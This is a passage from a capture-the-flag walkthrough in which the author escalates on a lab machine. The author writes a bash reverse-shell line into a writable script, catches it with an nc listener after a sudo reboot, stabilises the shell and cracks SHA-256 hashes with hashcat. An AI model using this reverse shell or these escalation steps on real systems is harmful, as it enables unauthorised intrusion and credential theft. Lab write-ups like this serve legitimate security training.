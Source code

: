Well this is just shocking security really,  it's almost as if someone wanted me to escalate privileges. We have write permissions to this shell file so we can create a reverse shell to our machine as tweedledum.

```sh

# Target
echo 'bash -i >& /dev/tcp/10.9.10.243/6666 0>&1' > twasBrillig.sh

# Attacker machine

nc -lvnp 6666

# Target

sudo /sbin/reboot
```

Once the machine has rebooted (it can take a minute or two because of all the SSH services) we get a reverse connection to our listener! Wonderful

## Tweedledum account

Let's quickly stablise this shell

```sh

python3 -c 'import tty;tty.spawn("/bin/bash")'
export TERM=xterm-256color
CTRL+Z
stty raw -echo | fg
```

```sh
ls -la
```

We have two text files:

- humptydumpty.txt
- poem.txt

Poem.txt appears to just contain a poem, nothing interesting

humptydumpty.txt contains what appears to be a bunch of hashes

```sh
echo '<HASH>' > hash.txt
nth --file hash.txt
```

Running NameThatHash against the hash suggests they are SHA-256 hashes so lets fire hashcat against the file

```sh
hashcat -a 0 -m 1400 hash.txt /usr/share/wordlists/rockyou.txt
```
